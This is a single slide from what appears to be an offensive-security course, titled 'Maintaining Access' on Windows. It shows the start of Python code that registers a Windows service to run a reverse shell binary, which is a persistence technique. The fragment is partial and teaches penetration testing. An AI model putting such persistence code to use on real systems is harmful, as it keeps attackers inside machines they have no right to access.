

Maintaining Access (cont.)
On Windows (cont.)
Next, we will add a global variable indicating the path of our reverse shell executable that we developed earlier on disk.
PATH_TO_REV_SHELL = r"C:\myscript.exe"
class MyService(win32serviceutil.ServiceFramework):
    _svc_name_ = "MyService"
    _svc_display_name_ = "My first service"
    _svc_description_ = ("A service that executes our reverse shell binary.")
...
182